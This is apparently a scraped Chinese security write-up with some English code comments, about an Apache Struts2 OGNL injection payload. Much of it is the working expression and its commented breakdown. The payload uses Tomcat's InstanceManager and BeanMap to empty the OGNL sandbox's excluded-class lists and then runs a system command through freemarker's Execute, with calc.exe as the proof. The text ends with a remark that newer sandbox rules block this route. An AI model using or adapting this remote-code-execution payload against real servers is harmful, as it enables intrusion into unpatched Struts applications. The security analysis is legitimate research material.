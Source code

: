     
    %{(#application.map=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + (#application.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) + (#application.map2=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) +(#application.map2.setBean(#application.get('map').get('context')) == true).toString().substring(0,0) + (#application.map3=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + (#application.map3.setBean(#application.get('map2').get('memberAccess')) == true).toString().substring(0,0) + (#application.get('map3').put('excludedPackageNames',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) + (#application.get('map3').put('excludedClasses',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) +(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'calc.exe'}))}

  

这有效地评估为：

  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    //Place valuestack in a beanmap mapapplication.map = org.apache.tomcat.InstanceManager().newInstance('org.apache.commons.collecitons.BeanMap');application.map.setBean(#request.get('struts.valueStack'));  
    //grab the context variable from valuestack and place in beanmap map2application.map2 = org.apache.tomcat.InstanceManager().newInstance('org.apache.commons.collecitons.BeanMap');application.map2.setBean(#application.get('map').get('context'));  
    //grab the memberaccess variable from context variable and place in beanmap map3application.map3 = org.apache.tomcat.InstanceManager().newInstance('org.apache.commons.collecitons.BeanMap');application.map3.setBean(#application.get('map2').get('memberAccess'));  
    //clear block lists found in memberaccess, by creating empty lists in their place. application.get('map3').put(excludedPackageNames', new HashSet());application.get('map3').put(excludedClasses', new HashSet());  
    //break out of sandbox restrictions and now execute calc.exeapplication.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'calc.exe'}));

  

        在 Struts2 中评估 OGNL 时，它在其上下文映射中具有一些映射到对象的预定义值。例如，其中一些包括“#application”、“#request”、“#attr”。因此，当您调用 %{#application.toString()} 时，您正在调用该对象及其 toString 函数。有一些非常有才华的研究人员发现，您可以使用以下方法绕过 OGNL/Struts 沙箱限制。

  

#application.map=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')

  

创建一个

BeanMap 并使用它的setBean和put函数来清除excludedPackageNames 和excludedClasses 从而取消沙箱限制。

  

但是新的沙盒限制阻止了 org.apache.tomcat.* 的使用。

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220415095205.png)
